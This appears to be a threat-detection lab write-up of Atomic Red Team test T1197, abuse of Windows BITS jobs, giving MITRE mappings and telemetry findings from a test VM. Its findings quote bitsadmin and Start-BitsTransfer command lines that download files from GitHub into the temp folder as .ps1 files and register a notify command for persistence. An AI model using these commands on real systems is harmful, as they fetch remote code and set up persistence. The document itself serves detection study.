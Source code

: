 ![alt text](images/image-57.png)


# Write Up

## Summary
BITS (Background Intelligent Transfer Service) is a legitimate Windows background downloader used to simplify and coordinate downloading and uploading large files to and from HTTP servers and SMB shares.

The interface to create and manage BITS jobs is accessible through `PowerShell` and the `BITSAdmin` tool.

- CMD: bitsadmin.exe (legacy CLI). 
- PowerShell BITS cmdlets: `Start-BitsTransfer`. 
- Some Windows binaries that leverage BITS functionality (e.g., desktopimgdownldr.exe used to download lockscreen/desktop images) — attackers can abuse these.

Thus, BITS is a useful tool for the adversaries to maintain persistence, start processes, perform various background tasks and execute malicious payloads.

**MITRE ATT&CK Tactic**
- [Persistence](https://attack.mitre.org/tactics/TA0003/)

**MITRE ATT&CK Technique**
- ID: [T1197](https://attack.mitre.org/techniques/T1197/)
- Name: BITS Jobs

## Report

### FINDINGS

- Time: Sep 15, 2025 7:50:51 PM (Sep 15, 2025 5:50:51 PM [UTC])
- InitiatingProcessAccountName: Sal
- InitiatingProcessFileName: cmd.exe, powershell.exe
- DeviceName: mydifr-win11-vm
- InitiatingProcessCommandLine: 
    - "cmd.exe" /c bitsadmin.exe /transfer /Download /priority Foreground https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md %temp%\bitsadmin1_flag.ps1
    - "powershell.exe" & {Start-BitsTransfer -Priority foreground -Source https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md -Destination $env:TEMP\bitsadmin2_flag.ps1}
    - "cmd.exe" /c bitsadmin.exe /create AtomicBITS & bitsadmin.exe /addfile AtomicBITS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md %temp%\bitsadmin3_flag.ps1 & bitsadmin.exe /setnotifycmdline AtomicBITS C:\Windows\system32\notepad.exe NULL & bitsadmin.exe /resume AtomicBITS & ping -n 5 127.0.0.1 >nul 2>&1 & bitsadmin.exe /complete AtomicBITS
- FileName: bitsadmin1_flag.ps1, bitsadmin2_flag.ps1
- FolderPath: 
	- C:\Users\Sal\AppData\Local\Temp\bitsadmin1_flag.ps1
	- C:\Users\Sal\AppData\Local\Temp\bitsadmin2_flag.ps1
- SHA256: 985cbf7dc69dadd8c832895ea05d0c096caa5342e9bb2503f040d8ac1be11d87 [VirusTotal](https://www.virustotal.com/gui/file/985cbf7dc69dadd8c832895ea05d0c096caa5342e9bb2503f040d8ac1be11d87) 